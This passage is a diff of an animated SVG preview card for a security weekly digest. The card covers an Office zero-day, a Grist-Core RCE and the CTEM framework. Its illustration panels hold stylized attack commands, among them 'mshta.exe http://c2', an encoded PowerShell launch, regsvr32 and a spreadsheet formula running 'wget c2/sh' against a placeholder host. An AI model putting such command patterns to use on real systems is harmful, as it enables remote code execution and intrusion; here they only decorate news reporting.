-   <text x="317" y="506" font-family="Arial,sans-serif" font-size="10" font-weight="700" fill="#3b82f6" text-anchor="middle">SEC OPS</text>
-   <rect x="371" y="490" width="101" height="24" rx="4" fill="#071a10" stroke="#22c55e" stroke-width="1" />
-   <text x="421" y="506" font-family="Arial,sans-serif" font-size="10" font-weight="700" fill="#22c55e" text-anchor="middle">CVE PATCH</text>
-   <rect x="484" y="490" width="110" height="24" rx="4" fill="#071a20" stroke="#22d3ee" stroke-width="1" />
-   <text x="539" y="506" font-family="Arial,sans-serif" font-size="10" font-weight="700" fill="#22d3ee" text-anchor="middle">THREAT INT</text>
-   <circle cx="32" cy="545" r="4" fill="#ef4444" opacity="0.6" />
-   <text x="46" y="550" font-family="Arial,sans-serif" font-size="12" fill="#475569">Security Weekly Digest | January 28, 2026</text>
-   <text x="1168" y="550" font-family="Arial,sans-serif" font-size="12" fill="#475569" text-anchor="end">tech.2twodragon.com</text>
+   <rect width="1200" height="630" fill="url(#bgMain)" />
+   <rect width="1200" height="630" fill="url(#dotGrid)" />
+   <circle cx="280" cy="300" r="160" fill="url(#glowRed)">
+     <animate attributeName="opacity" values="0.5;0.9;0.5" dur="7.2s" repeatCount="indefinite" />
+     <animate attributeName="r" values="160;178;160" dur="9.5s" repeatCount="indefinite" />
+   </circle>
+   <circle cx="900" cy="170" r="120" fill="url(#glowAmber)">
+     <animate attributeName="opacity" values="0.4;0.8;0.4" dur="6.1s" repeatCount="indefinite" />
+     <animate attributeName="r" values="120;138;120" dur="8.3s" repeatCount="indefinite" />
+   </circle>
+   <circle cx="910" cy="490" r="110" fill="url(#glowGreen)">
+     <animate attributeName="opacity" values="0.35;0.7;0.35" dur="8.4s" repeatCount="indefinite" />
+     <animate attributeName="r" values="110;126;110" dur="10.2s" repeatCount="indefinite" />
+   </circle>
+   <g fill="#7FB2FF">
+     <circle cx="140" cy="58" r="1.1">
+       <animate attributeName="opacity" values="0.2;1;0.2" dur="3.3s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="390" cy="65" r="0.9">
+       <animate attributeName="opacity" values="0.15;0.9;0.15" dur="4.6s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="700" cy="61" r="1.2">
+       <animate attributeName="opacity" values="0.2;0.95;0.2" dur="3.8s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="1050" cy="68" r="0.8">
+       <animate attributeName="opacity" values="0.15;0.85;0.15" dur="5.4s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="70" cy="340" r="1.0">
+       <animate attributeName="opacity" values="0.18;0.8;0.18" dur="4.9s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="630" cy="310" r="1.1">
+       <animate attributeName="opacity" values="0.2;0.9;0.2" dur="3.5s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="1170" cy="320" r="0.9">
+       <animate attributeName="opacity" values="0.15;0.8;0.15" dur="4.2s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="22" cy="508" r="0.8">
+       <animate attributeName="opacity" values="0.15;0.75;0.15" dur="5.7s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="622" cy="518" r="1.2">
+       <animate attributeName="opacity" values="0.2;0.95;0.2" dur="4.0s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="1185" cy="510" r="0.9">
+       <animate attributeName="opacity" values="0.18;0.85;0.18" dur="4.8s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="250" cy="600" r="1.1">
+       <animate attributeName="opacity" values="0.15;0.8;0.15" dur="5.8s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="1090" cy="592" r="1.0">
+       <animate attributeName="opacity" values="0.18;0.88;0.18" dur="4.3s" repeatCount="indefinite" />
+     </circle>
+   </g>
+   <rect x="0" y="0" width="1200" height="56" fill="#030810" opacity="0.95" />
+   <text x="36" y="36" font-family="Helvetica, Arial, sans-serif" font-size="18" font-weight="700" fill="#7FB2FF" letter-spacing="2.5">WEEKLY DIGEST</text>
+   <text x="1164" y="36" font-family="Helvetica, Arial, sans-serif" font-size="15" font-weight="600" fill="#7DA3D9" letter-spacing="1.5" text-anchor="end">2026.01.28</text>
+   <rect x="0" y="54" width="1200" height="2" fill="#E63946" opacity="0.85">
+     <animate attributeName="opacity" values="0.35;1;0.35" dur="4.5s" repeatCount="indefinite" />
+   </rect>
+   <rect x="32" y="80" width="600" height="510" rx="14" ry="14" fill="url(#heroGrad)" stroke="#E63946" stroke-width="1.8" opacity="0.98" />
+   <rect x="32" y="80" width="600" height="4" fill="#E63946">
+     <animate attributeName="opacity" values="0.5;1;0.5" dur="3.6s" repeatCount="indefinite" />
+   </rect>
+   <text x="54" y="114" font-family="Helvetica, Arial, sans-serif" font-size="13" font-weight="700" fill="#FF6B80" letter-spacing="3">CRITICAL  /  CVE-2026-21509</text>
+   <text x="54" y="148" font-family="Helvetica, Arial, sans-serif" font-size="31" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">MS Office Zero-Day</text>
+   <text x="54" y="176" font-family="Helvetica, Arial, sans-serif" font-size="18" font-weight="500" fill="#CBD5E1">Protected View bypass — active exploitation</text>
+   <text x="62" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">01 LURE</text>
+   <text x="216" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">02 BYPASS</text>
+   <text x="385" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">03 SHELL</text>
+   <g transform="translate(56,204)" filter="url(#softShadow)">
+     <rect x="0" y="0" width="76" height="96" rx="5" ry="5" fill="url(#docGrad)" stroke="#7FB2FF" stroke-width="1.5" />
+     <path d="M58 0 L76 18 L58 18 Z" fill="#A8C2F0" stroke="#7FB2FF" stroke-width="1" />
+     <text x="10" y="52" font-family="Helvetica, Arial, sans-serif" font-size="26" font-weight="900" fill="#1F4E98">W</text>
+     <text x="8" y="72" font-family="Helvetica, Arial, sans-serif" font-size="10" font-weight="700" fill="#3A5998">DOCX</text>
+     <rect x="40" y="68" width="34" height="20" rx="3" fill="#E63946">
+       <animate attributeName="opacity" values="0.8;1;0.8" dur="1.8s" repeatCount="indefinite" />
+     </rect>
+     <text x="44" y="83" font-family="Helvetica, Arial, sans-serif" font-size="9" font-weight="800" fill="#FFFFFF">EVIL</text>
+     <rect x="16" y="-18" width="44" height="14" rx="3" fill="#2A3558" stroke="#7FB2FF" stroke-width="0.8" />
+     <text x="20" y="-7" font-family="Helvetica, Arial, sans-serif" font-size="8" fill="#7FB2FF">attach</text>
+   </g>
+   <path d="M142 248 L200 248" stroke="#E63946" stroke-width="2" fill="none" stroke-dasharray="5 3">
+     <animate attributeName="stroke-dashoffset" values="0;-16" dur="1.2s" repeatCount="indefinite" />
+   </path>
+   <polygon points="200,244 210,248 200,252" fill="#E63946">
+     <animate attributeName="opacity" values="0.7;1;0.7" dur="1.2s" repeatCount="indefinite" />
+   </polygon>
+   <g transform="translate(212,210)">
+     <path d="M40 0 L80 16 L80 56 Q80 88 40 104 Q0 88 0 56 L0 16 Z" fill="#1C2541" stroke="#E63946" stroke-width="2.2" />
+     <line x1="22" y1="30" x2="58" y2="70" stroke="#E63946" stroke-width="3.5">
+       <animate attributeName="stroke-width" values="3;4.5;3" dur="1.4s" repeatCount="indefinite" />
+     </line>
+     <line x1="58" y1="30" x2="22" y2="70" stroke="#E63946" stroke-width="3.5">
+       <animate attributeName="stroke-width" values="3;4.5;3" dur="1.4s" repeatCount="indefinite" />
+     </line>
+     <text x="4" y="96" font-family="Helvetica, Arial, sans-serif" font-size="9" font-weight="700" fill="#FF6B80">BYPASSED</text>
+   </g>
+   <ellipse cx="255" cy="248" rx="55" ry="18" fill="url(#exploitFlare)" opacity="0.6">
+     <animate attributeName="opacity" values="0.3;0.7;0.3" dur="2.1s" repeatCount="indefinite" />
+     <animate attributeName="rx" values="55;68;55" dur="2.1s" repeatCount="indefinite" />
+   </ellipse>
+   <g fill="#E63946">
+     <circle cx="212" cy="248" r="2.8">
+       <animate attributeName="opacity" values="0;1;0" dur="2.0s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="300" cy="248" r="2.8">
+       <animate attributeName="opacity" values="0;1;0" dur="2.3s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="256" cy="212" r="2.0">
+       <animate attributeName="opacity" values="0;0.9;0" dur="1.8s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="256" cy="286" r="2.0">
+       <animate attributeName="opacity" values="0;0.9;0" dur="2.5s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="220" cy="218" r="1.4">
+       <animate attributeName="opacity" values="0;0.8;0" dur="3.1s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="292" cy="218" r="1.4">
+       <animate attributeName="opacity" values="0;0.8;0" dur="2.7s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="220" cy="278" r="1.4">
+       <animate attributeName="opacity" values="0;0.8;0" dur="2.2s" repeatCount="indefinite" />
+     </circle>
+     <circle cx="292" cy="278" r="1.4">
+       <animate attributeName="opacity" values="0;0.8;0" dur="3.4s" repeatCount="indefinite" />
+     </circle>
+   </g>
+   <path d="M302 248 L370 248" stroke="#E63946" stroke-width="2" fill="none" stroke-dasharray="5 3">
+     <animate attributeName="stroke-dashoffset" values="0;-16" dur="1.0s" repeatCount="indefinite" />
+   </path>
+   <polygon points="370,244 380,248 370,252" fill="#E63946">
+     <animate attributeName="opacity" values="0.7;1;0.7" dur="1.0s" repeatCount="indefinite" />
+   </polygon>
+   <g transform="translate(382,196)" filter="url(#softShadow)">
+     <rect x="0" y="0" width="216" height="128" rx="8" ry="8" fill="url(#termBg)" stroke="#30C060" stroke-width="1.5" />
+     <rect x="0" y="0" width="216" height="22" rx="8" ry="0" fill="#1A2332" />
+     <rect x="0" y="14" width="216" height="8" fill="#1A2332" />
+     <circle cx="14" cy="11" r="4" fill="#E63946" />
+     <circle cx="28" cy="11" r="4" fill="#FFD166" />
+     <circle cx="42" cy="11" r="4" fill="#06D6A0" />
+     <text x="86" y="15" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">cmd.exe</text>
+     <text x="10" y="40" font-family="Monaco, monospace" font-size="10" fill="#30C060">C:\&gt; powershell.exe</text>
+     <text x="10" y="56" font-family="Monaco, monospace" font-size="10" fill="#30C060">  -EncodedCommand</text>
+     <text x="10" y="72" font-family="Monaco, monospace" font-size="10" fill="#FFD166">  b64payload</text>
+     <text x="10" y="88" font-family="Monaco, monospace" font-size="10" fill="#E63946">mshta.exe http://c2</text>
+     <text x="10" y="106" font-family="Monaco, monospace" font-size="9" fill="#8338EC">regsvr32.exe /u /s</text>
+     <text x="10" y="122" font-family="Monaco, monospace" font-size="10" fill="#30C060">
+       <animate attributeName="opacity" values="0;1;0" dur="1.1s" repeatCount="indefinite" />_</text>
+   </g>
+   <g transform="translate(56,334)">
+     <rect x="0" y="0" width="540" height="72" rx="8" ry="8" fill="#120810" stroke="#8338EC" stroke-width="1.4" />
+     <text x="16" y="22" font-family="Monaco, monospace" font-size="11" fill="#8338EC" font-weight="700">C2 CHANNEL  &gt;&gt;  DATA EXFIL</text>
+     <rect x="16" y="30" width="508" height="6" rx="3" fill="#1A0A2E" stroke="#8338EC" stroke-width="0.8" />
+     <rect x="16" y="30" width="40" height="6" rx="3" fill="#8338EC">
+       <animate attributeName="x" values="16;484;16" dur="2.8s" repeatCount="indefinite" />
+       <animate attributeName="opacity" values="0.9;0.6;0.9" dur="2.8s" repeatCount="indefinite" />
+     </rect>
+     <rect x="100" y="30" width="28" height="6" rx="3" fill="#6020C8" opacity="0.7">
+       <animate attributeName="x" values="100;460;16;100" dur="3.6s" repeatCount="indefinite" />
+     </rect>
+     <text x="16" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1566.001 Spearphishing</text>
+     <text x="190" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1059.001 PowerShell</text>
+     <text x="368" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1041 C2 Exfil</text>
+   </g>
+   <g transform="translate(54,422)">
+     <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#1A0A12" stroke="#E63946" stroke-width="1.5" />
+     <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#FF6B80" font-weight="700" letter-spacing="1.5">CVSS 3.1</text>
+     <text x="12" y="48" font-family="Helvetica, Arial, sans-serif" font-size="30" font-weight="800" fill="#E63946" filter="url(#txtGlow)">7.8</text>
+     <text x="64" y="48" font-family="Helvetica, Arial, sans-serif" font-size="14" fill="#CBD5E1" font-weight="600">HIGH</text>
+   </g>
+   <g transform="translate(236,422)">
+     <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#1A0A12" stroke="#FF4757" stroke-width="1.5" />
+     <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#FF6B80" font-weight="700" letter-spacing="1.5">EPSS</text>
+     <text x="12" y="48" font-family="Helvetica, Arial, sans-serif" font-size="28" font-weight="800" fill="#FF4757" filter="url(#txtGlow)">84.7%</text>
+   </g>
+   <g transform="translate(418,422)">
+     <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#0A1A0E" stroke="#06D6A0" stroke-width="1.5" />
+     <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#06D6A0" font-weight="700" letter-spacing="1.5">PATCH</text>
+     <text x="12" y="46" font-family="Helvetica, Arial, sans-serif" font-size="17" font-weight="800" fill="#06D6A0">KB5034173</text>
+   </g>
+   <g transform="translate(54,500)">
+     <rect x="0" y="0" width="192" height="24" rx="3" fill="#E63946" opacity="0.95" />
+     <text x="10" y="17" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#FFF5F5">ACTIVE IN-THE-WILD EXPLOIT</text>
+   </g>
+   <text x="262" y="517" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#8FA3B8" font-style="italic">Microsoft  /  Jan 27, 2026</text>
+   <text x="54" y="545" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#7DA3D9">Affects: Office 2019, 2021, Microsoft 365 (DOCX / XLSX / PPTX)</text>
+   <rect x="652" y="80" width="516" height="248" rx="14" ry="14" fill="url(#tr1Grad)" stroke="#FF6B35" stroke-width="1.6" opacity="0.98" />
+   <rect x="652" y="80" width="516" height="4" fill="#FF6B35">
+     <animate attributeName="opacity" values="0.5;1;0.5" dur="4.1s" repeatCount="indefinite" />
+   </rect>
+   <text x="672" y="112" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#FF8C5A" letter-spacing="3">HIGH  /  RCE  /  PoC AVAILABLE</text>
+   <text x="672" y="140" font-family="Helvetica, Arial, sans-serif" font-size="24" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">Grist-Core RCE</text>
+   <text x="672" y="160" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#CBD5E1">Open-source spreadsheet remote code execution</text>
+   <g transform="translate(672,172)">
+     <rect x="0" y="0" width="204" height="56" rx="4" ry="4" fill="#1A1428" stroke="#FF6B35" stroke-width="1.2" />
+     <rect x="0" y="0" width="32" height="56" fill="#221836" rx="4" ry="0" />
+     <text x="8" y="18" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">A</text>
+     <text x="8" y="34" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">B</text>
+     <text x="8" y="50" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">C</text>
+     <text x="38" y="18" font-family="Monaco, monospace" font-size="9" fill="#7DA3D9">budget_2026</text>
+     <text x="38" y="34" font-family="Monaco, monospace" font-size="9" fill="#7DA3D9">report_Q1</text>
+     <rect x="32" y="40" width="172" height="16" fill="#3A0A18" stroke="#FF6B35" stroke-width="1">
+       <animate attributeName="fill" values="#3A0A18;#5A1228;#3A0A18" dur="2.0s" repeatCount="indefinite" />
+     </rect>
+     <text x="36" y="52" font-family="Monaco, monospace" font-size="9" fill="#FF6B35">=SYSTEM("wget c2/sh")</text>
+   </g>
+   <path d="M886,202 L928,202" stroke="#FF6B35" stroke-width="1.8" fill="none" stroke-dasharray="4 3">
+     <animate attributeName="stroke-dashoffset" values="0;-14" dur="1.0s" repeatCount="indefinite" />
+   </path>
+   <polygon points="928,198 938,202 928,206" fill="#FF6B35" />
+   <g transform="translate(940,182)">
+     <circle cx="30" cy="30" r="28" fill="#2A0E18" stroke="#FF6B35" stroke-width="2">
+       <animate attributeName="r" values="26;32;26" dur="2.2s" repeatCount="indefinite" />
+       <animate attributeName="stroke-width" values="1.5;3;1.5" dur="2.2s" repeatCount="indefinite" />
+     </circle>
+     <text x="8" y="26" font-family="Helvetica, Arial, sans-serif" font-size="10" font-weight="800" fill="#FF6B35">RCE</text>
+     <text x="10" y="40" font-family="Helvetica, Arial, sans-serif" font-size="9" fill="#CBD5E1">EXEC</text>
+     <g stroke="#FF6B35" stroke-width="1.2" opacity="0.7">
+       <line x1="30" y1="-4" x2="30" y2="-12">
+         <animate attributeName="opacity" values="0.4;1;0.4" dur="1.5s" repeatCount="indefinite" />
+       </line>
+       <line x1="62" y1="30" x2="70" y2="30">
+         <animate attributeName="opacity" values="0.4;1;0.4" dur="1.7s" repeatCount="indefinite" />
+       </line>
+       <line x1="30" y1="62" x2="30" y2="70">
+         <animate attributeName="opacity" values="0.4;1;0.4" dur="1.9s" repeatCount="indefinite" />
+       </line>
+       <line x1="-4" y1="30" x2="-12" y2="30">
+         <animate attributeName="opacity" values="0.4;1;0.4" dur="1.3s" repeatCount="indefinite" />
+       </line>
+       <line x1="52" y1="6" x2="58" y2="0">
+         <animate attributeName="opacity" values="0.3;0.9;0.3" dur="2.1s" repeatCount="indefinite" />
+       </line>
+       <line x1="52" y1="54" x2="58" y2="60">
+         <animate attributeName="opacity" values="0.3;0.9;0.3" dur="2.4s" repeatCount="indefinite" />
+       </line>
+     </g>
+   </g>
+   <g transform="translate(672,246)">
+     <rect x="0" y="0" width="480" height="68" rx="8" ry="8" fill="#1A1020" stroke="#FF6B35" stroke-width="1.2" />
+     <text x="14" y="24" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#FF8C5A" font-weight="700" letter-spacing="1">REMEDIATION</text>
+     <text x="14" y="50" font-family="Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F8FAFC">Upgrade to v1.1.15+</text>
+     <text x="220" y="50" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#8FA3B8"> — PoC in wild, patch now</text>
+     <rect x="450" y="10" width="20" height="48" rx="4" fill="#E63946" opacity="0.9">
+       <animate attributeName="opacity" values="0.7;1;0.7" dur="2.0s" repeatCount="indefinite" />
+     </rect>
+   </g>
+   <rect x="652" y="344" width="516" height="246" rx="14" ry="14" fill="url(#br1Grad)" stroke="#06D6A0" stroke-width="1.6" opacity="0.98" />
+   <rect x="652" y="344" width="516" height="4" fill="#06D6A0">
+     <animate attributeName="opacity" values="0.45;1;0.45" dur="5.2s" repeatCount="indefinite" />
+   </rect>
+   <text x="672" y="376" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#06D6A0" letter-spacing="3">GARTNER  /  BEST PRACTICE</text>
+   <text x="672" y="402" font-family="Helvetica, Arial, sans-serif" font-size="24" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">CTEM Framework</text>
+   <text x="672" y="420" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#A5B8C8">Continuous Threat Exposure Management — 5 stages</text>
+   <g transform="translate(672,434)">
+     <rect x="0" y="0" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
+     <rect x="0" y="0" width="82" height="16" rx="3" fill="url(#ctemBar1)" opacity="0.9">
+       <animate attributeName="opacity" values="0.7;1;0.7" dur="3.5s" repeatCount="indefinite" />
+     </rect>
+     <text x="88" y="13" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">01 Scoping</text>
+     <rect x="0" y="22" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
+     <rect x="0" y="22" width="145" height="16" rx="3" fill="url(#ctemBar2)" opacity="0.9">
+       <animate attributeName="opacity" values="0.7;1;0.7" dur="4.0s" repeatCount="indefinite" />
+     </rect>
+     <text x="151" y="35" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">02 Discovery</text>
+     <rect x="0" y="44" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
+     <rect x="0" y="44" width="228" height="16" rx="3" fill="url(#ctemBar3)" opacity="0.9">
+       <animate attributeName="opacity" values="0.7;1;0.7" dur="4.5s" repeatCount="indefinite" />
+     </rect>
+     <text x="234" y="57" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">03 Prioritization</text>
+     <rect x="0" y="66" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
+     <rect x="0" y="66" width="318" height="16" rx="3" fill="url(#ctemBar4)" opacity="0.9">
+       <animate attributeName="opacity" values="0.7;1;0.7" dur="5.0s" repeatCount="indefinite" />
+     </rect>
+     <text x="324" y="79" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">04 Validation</text>
+     <rect x="0" y="88" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
+     <rect x="0" y="88" width="490" height="16" rx="3" fill="url(#ctemBar5)" opacity="0.85">
+       <animate attributeName="opacity" values="0.65;1;0.65" dur="5.5s" repeatCount="indefinite" />
+     </rect>
+     <text x="10" y="101" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#F8FAFC" font-weight="700">05 Mobilization</text>
+   </g>
+   <g transform="translate(672,546)">
+     <rect x="0" y="0" width="148" height="22" rx="3" fill="#0A2018" stroke="#06D6A0" stroke-width="1" />
+     <text x="8" y="15" font-family="Helvetica, Arial, sans-serif" font-size="11" font-weight="700" fill="#06D6A0">Gartner Best Practice</text>
+   </g>
+   <text x="832" y="561" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#7DA3D9" font-style="italic">Splunk / CrowdStrike EDR  /  2026</text>
+   <rect x="0" y="596" width="1200" height="34" fill="#030810" opacity="0.92" />
+   <text x="36" y="618" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#5A7090" letter-spacing="1">tech.2twodragon.com</text>
+   <text x="1164" y="618" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#5A7090" text-anchor="end" letter-spacing="1">Security Weekly  |  Jan 28, 2026</text>
+   <g transform="translate(1080,504)" filter="url(#softShadow)">
+     <rect x="-8" y="-8" width="100" height="100" rx="6" fill="#FFFFFF" />
+     <g transform="scale(1.866667)" fill="#0A1020">
+       <path d="M0 0h7v1h-7zM14 0h2v1h-2zM17 0h4v1h-4zM22 0h1v1h-1zM25 0h3v1h-3zM29 0h2v1h-2zM33 0h1v1h-1zM36 0h1v1h-1zM38 0h7v1h-7zM0 1h1v1h-1zM6 1h1v1h-1zM9 1h1v1h-1zM11 1h1v1h-1zM13 1h3v1h-3zM17 1h1v1h-1zM19 1h3v1h-3zM26 1h3v1h-3zM30 1h1v1h-1zM35 1h1v1h-1zM38 1h1v1h-1zM44 1h1v1h-1zM0 2h1v1h-1zM2 2h3v1h-3zM6 2h1v1h-1zM9 2h2v1h-2zM16 2h1v1h-1zM18 2h6v1h-6zM25 2h4v1h-4zM32 2h1v1h-1zM35 2h1v1h-1zM38 2h1v1h-1zM40 2h3v1h-3zM44 2h1v1h-1zM0 3h1v1h-1zM2 3h3v1h-3zM6 3h1v1h-1zM10 3h1v1h-1zM13 3h1v1h-1zM20 3h3v1h-3zM24 3h1v1h-1zM26 3h1v1h-1zM30 3h1v1h-1zM35 3h2v1h-2zM38 3h1v1h-1zM40 3h3v1h-3zM44 3h1v1h-1zM0 4h1v1h-1zM2 4h3v1h-3zM6 4h1v1h-1zM11 4h2v1h-2zM15 4h3v1h-3zM20 4h12v1h-12zM33 4h4v1h-4zM38 4h1v1h-1zM40 4h3v1h-3zM44 4h1v1h-1zM0 5h1v1h-1zM6 5h1v1h-1zM8 5h2v1h-2zM11 5h1v1h-1zM13 5h1v1h-1zM15 5h1v1h-1zM17 5h4v1h-4zM24 5h3v1h-3zM28 5h2v1h-2zM31 5h2v1h-2zM38 5h1v1h-1zM44 5h1v1h-1zM0 6h7v1h-7zM8 6h1v1h-1zM10 6h1v1h-1zM12 6h1v1h-1zM14 6h1v1h-1zM16 6h1v1h-1zM18 6h1v1h-1zM20 6h1v1h-1zM22 6h1v1h-1zM24 6h1v1h-1zM26 6h1v1h-1zM28 6h1v1h-1zM30 6h1v1h-1zM32 6h1v1h-1zM34 6h1v1h-1zM36 6h1v1h-1zM38 6h7v1h-7zM9 7h1v1h-1zM12 7h1v1h-1zM14 7h7v1h-7zM24 7h1v1h-1zM27 7h1v1h-1zM30 7h2v1h-2zM34 7h2v1h-2zM0 8h1v1h-1zM3 8h1v1h-1zM5 8h2v1h-2zM8 8h3v1h-3zM13 8h1v1h-1zM19 8h7v1h-7zM27 8h2v1h-2zM31 8h1v1h-1zM34 8h1v1h-1zM37 8h1v1h-1zM39 8h1v1h-1zM2 9h2v1h-2zM5 9h1v1h-1zM7 9h1v1h-1zM15 9h3v1h-3zM20 9h2v1h-2zM27 9h2v1h-2zM32 9h1v1h-1zM37 9h1v1h-1zM40 9h1v1h-1zM44 9h1v1h-1zM1 10h4v1h-4zM6 10h2v1h-2zM9 10h4v1h-4zM16 10h1v1h-1zM18 10h1v1h-1zM20 10h1v1h-1zM22 10h1v1h-1zM24 10h2v1h-2zM30 10h3v1h-3zM34 10h3v1h-3zM42 10h1v1h-1zM44 10h1v1h-1zM3 11h1v1h-1zM5 11h1v1h-1zM7 11h1v1h-1zM9 11h2v1h-2zM12 11h2v1h-2zM19 11h2v1h-2zM23 11h1v1h-1zM25 11h5v1h-5zM31 11h1v1h-1zM33 11h1v1h-1zM35 11h1v1h-1zM37 11h3v1h-3zM41 11h1v1h-1zM43 11h2v1h-2zM2 12h1v1h-1zM4 12h4v1h-4zM11 12h2v1h-2zM14 12h1v1h-1zM16 12h5v1h-5zM24 12h2v1h-2zM28 12h3v1h-3zM32 12h1v1h-1zM34 12h2v1h-2zM38 12h4v1h-4zM0 13h2v1h-2zM3 13h1v1h-1zM5 13h1v1h-1zM9 13h5v1h-5zM16 13h3v1h-3zM24 13h2v1h-2zM28 13h1v1h-1zM33 13h3v1h-3zM41 13h3v1h-3zM0 14h2v1h-2zM4 14h3v1h-3zM12 14h1v1h-1zM14 14h3v1h-3zM18 14h1v1h-1zM20 14h1v1h-1zM24 14h1v1h-1zM26 14h3v1h-3zM30 14h1v1h-1zM32 14h2v1h-2zM37 14h3v1h-3zM43 14h1v1h-1zM0 15h1v1h-1zM2 15h1v1h-1zM4 15h2v1h-2zM7 15h2v1h-2zM10 15h2v1h-2zM13 15h1v1h-1zM16 15h1v1h-1zM18 15h1v1h-1zM22 15h1v1h-1zM27 15h2v1h-2zM32 15h2v1h-2zM36 15h1v1h-1zM39 15h1v1h-1zM44 15h1v1h-1zM6 16h2v1h-2zM9 16h1v1h-1zM12 16h1v1h-1zM15 16h1v1h-1zM17 16h4v1h-4zM23 16h2v1h-2zM26 16h2v1h-2zM30 16h6v1h-6zM37 16h3v1h-3zM43 16h2v1h-2zM0 17h1v1h-1zM2 17h1v1h-1zM7 17h2v1h-2zM10 17h2v1h-2zM14 17h1v1h-1zM16 17h1v1h-1zM18 17h1v1h-1zM20 17h2v1h-2zM23 17h2v1h-2zM26 17h1v1h-1zM29 17h1v1h-1zM31 17h1v1h-1zM35 17h1v1h-1zM38 17h1v1h-1zM40 17h2v1h-2zM43 17h1v1h-1zM0 18h4v1h-4zM6 18h2v1h-2zM11 18h2v1h-2zM14 18h1v1h-1zM16 18h1v1h-1zM19 18h3v1h-3zM23 18h4v1h-4zM29 18h1v1h-1zM31 18h1v1h-1zM33 18h1v1h-1zM35 18h1v1h-1zM39 18h1v1h-1zM42 18h3v1h-3zM3 19h1v1h-1zM7 19h5v1h-5zM13 19h2v1h-2zM19 19h1v1h-1zM22 19h1v1h-1zM25 19h2v1h-2zM28 19h1v1h-1zM31 19h2v1h-2zM34 19h1v1h-1zM36 19h2v1h-2zM43 19h1v1h-1zM0 20h1v1h-1zM3 20h6v1h-6zM10 20h2v1h-2zM13 20h2v1h-2zM16 20h1v1h-1zM18 20h7v1h-7zM26 20h6v1h-6zM34 20h1v1h-1zM36 20h8v1h-8zM0 21h5v1h-5zM8 21h1v1h-1zM10 21h3v1h-3zM16 21h1v1h-1zM19 21h2v1h-2zM24 21h1v1h-1zM26 21h2v1h-2zM32 21h1v1h-1zM36 21h1v1h-1zM40 21h1v1h-1zM44 21h1v1h-1zM2 22h3v1h-3zM6 22h1v1h-1zM8 22h2v1h-2zM11 22h1v1h-1zM13 22h1v1h-1zM18 22h3v1h-3zM22 22h1v1h-1zM24 22h3v1h-3zM28 22h1v1h-1zM33 22h1v1h-1zM35 22h2v1h-2zM38 22h1v1h-1zM40 22h1v1h-1zM42 22h1v1h-1zM44 22h1v1h-1zM1 23h1v1h-1zM3 23h2v1h-2zM8 23h1v1h-1zM11 23h1v1h-1zM13 23h1v1h-1zM17 23h1v1h-1zM20 23h1v1h-1zM24 23h1v1h-1zM26 23h1v1h-1zM28 23h3v1h-3zM32 23h1v1h-1zM36 23h1v1h-1zM40 23h2v1h-2zM0 24h1v1h-1zM4 24h6v1h-6zM11 24h1v1h-1zM13 24h2v1h-2zM16 24h1v1h-1zM18 24h1v1h-1zM20 24h6v1h-6zM27 24h3v1h-3zM31 